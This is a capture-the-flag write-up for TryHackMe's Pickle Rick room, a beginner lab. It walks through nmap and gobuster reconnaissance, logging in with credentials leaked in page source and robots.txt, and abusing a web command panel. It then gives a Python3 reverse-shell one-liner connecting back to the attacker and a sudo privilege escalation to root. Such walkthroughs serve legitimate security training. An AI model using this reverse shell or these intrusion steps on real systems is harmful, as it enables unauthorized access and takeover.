




# Pickle Rick
**Date:** January 20th 2022

[**Link**](https://tryhackme.com/room/picklerick) to the Pickle Rick CTF on TryHackMe.

This is rated as an easy CTF for beginners.

<br>

## Objectives

This CTF requires that you find the following:
- What is the first ingredient Rick needs?
- What is the second ingredient Rick needs?
- What is the third ingredient Rick needs?

<br>

## Nmap Scan

I start with an `nmap` scan to see which ports are open:
```
sudo nmap -sC -sV -A -oN rick.nmap 10.10.172.250
```
We only see 2 - ssh and http:
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 89:78:34:72:cf:f7:19:26:15:12:c2:4e:9e:7f:c9:d9 (RSA)
|   256 4c:25:1a:7a:25:87:a5:7e:18:12:07:21:30:03:98:ad (ECDSA)
|_  256 76:58:15:13:d9:04:f3:b2:e0:b9:41:14:e2:bd:b9:83 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Rick is sup4r cool
|_http-server-header: Apache/2.4.18 (Ubuntu)
```

<br>

## Website

Not having much to go on at this point I start with the website:



It seems Rick needs our help finding 3 secret ingredients or he'll be stuck as a pickle forever, and we can't have that!

Viewing the page source code shows an interesting comment:
```
<!--

    Note to self, remember username!

    Username: <REDACTED>

  -->
```
Now we have a username so that's a start. Let's check to see if there is anything else interesting on the website by running a `gobuster` scan:
```
gobuster dir -u http://10.10.172.250 -w /usr/share/wordlists/dirb/common.txt -t 50 -r -o rick.buster -x php,txt,html 2& > /dev/null
```
The scan shows a few additional things to check out:
```
/assets               (Status: 200) [Size: 2192]
/denied.php           (Status: 200) [Size: 882] 
/login.php            (Status: 200) [Size: 882] 
/portal.php           (Status: 200) [Size: 882] 
/robots.txt           (Status: 200) [Size: 17]
```
/assets does not provide anything useful that I can see, but does have some pictures if you want to check them out.

Looking at robots.txt shows only a short string of text:
```
<REDACTED>
```

The denied.php and login.php files give you a login page. After logging in you are redirected to portal.php.



Given we have a username and a string of text from the robots.txt file let's try those as a login combo on the page.

We're in! Of the menu bar options at the top it looks like only the Commands tab is useful to us:



Running the `ls` command displays a list of files so we are able to execute commands directly on the webserver via this interface:
```
Sup3rS3cretPickl3Ingred.txt
assets
clue.txt
denied.php
index.html
login.php
portal.php
robots.txt
```
Running `cat Sup3rS3cretPickl3Ingred.txt` displays an error saying the command is disabled so we can't display the file contents that way.

I then tried `less Sup3rS3cretPickl3Ingred.txt` as a work around which was successful and gives us the answer for the first ingredient:
```
<REDACTED>
```

`less clue.txt` shows:
```
Look around the file system for the other ingredient.
```
1 down and 2 to go!

<br>

## Getting a shell

Still on the website I check to see if python3 is available with `which python3` and it is:
```
/usr/bin/python3
```

Let's see if we can get a reverse shell here. I set up a listener on my system with `nc -nvlp 4444`:
```
nc -nvlp 4444
listening on [any] 4444 ...
```

And then find a reverse shell payload on [**revshells.com**](https://www.revshells.com/). I'm going with Python3 #1.
```
export RHOST="<YOUR IP>";export RPORT=4444;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("sh")'
```

After executing the command above we get a shell back on our listener!
```
connect to [<MY IP>] from (UNKNOWN) [10.10.172.250] 53856
$ whoami
whoami
www-data
$ hostname
hostname
ip-10-10-172-250
$
```

Let's stabilize the shell:
```
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@ip-10-10-172-250:/var/www/html$ export TERM=xterm
export TERM=xterm
www-data@ip-10-10-172-250:/var/www/html$ ^Z
zsh: suspended  nc -nvlp 4444
                                                                                                       
┌──(kali㉿kali)-[~/work]
└─$ stty raw -echo; fg                                                                       148 ⨯ 1 ⚙
[1]  + continued  nc -nvlp 4444

www-data@ip-10-10-172-250:/var/www/html$
```

Running an `ls` command displays the files from above and you can `cat Sup3rS3cretPickl3Ingred.txt` and `cat clue.txt` at this point if you didn't already display them on the website.

Taking a look at the /home directory shows us a directory for **rick**, and looking inside gives us the answer for the second ingredient:
```
www-data@ip-10-10-172-250:/var/www/html$ cd /home
www-data@ip-10-10-172-250:/home$ ls
rick  ubuntu
www-data@ip-10-10-172-250:/home$ cd rick
www-data@ip-10-10-172-250:/home/rick$ ls
second ingredients
www-data@ip-10-10-172-250:/home/rick$ cat "second ingredients"  
<REDACTED>
```

Now let's see about privilege escalation. Anything listed on `sudo -l`?
```
www-data@ip-10-10-172-250:/home/rick$ sudo -l
Matching Defaults entries for www-data on
    ip-10-10-172-250.eu-west-1.compute.internal:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on
        ip-10-10-172-250.eu-west-1.compute.internal:
    (ALL) NOPASSWD: ALL
```

Well, that was easy! No need to run linpeas or anything when we can run all commands as root with sudo. Let's `sudo /bin/bash` to get root:
```
www-data@ip-10-10-172-250:/home/rick$ sudo /bin/bash
root@ip-10-10-172-250:/home/rick#
```

Let's take a look at the /root directory:
```
root@ip-10-10-172-250:/home/rick# cd /root
root@ip-10-10-172-250:~# ls
3rd.txt  snap
root@ip-10-10-172-250:~# cat 3rd.txt
3rd ingredients: <REDACTED>
```

And we now have all 3 ingredients allowing us to get Rick out of the pickle he's in. Ok that was a terrible joke I admit.



Many thanks to **TryHackMe** for creating and hosting this fun Rick and Morty themed CTF. I had a blast going through it.

You can visit them at: [**https://tryhackme.com**](https://tryhackme.com)
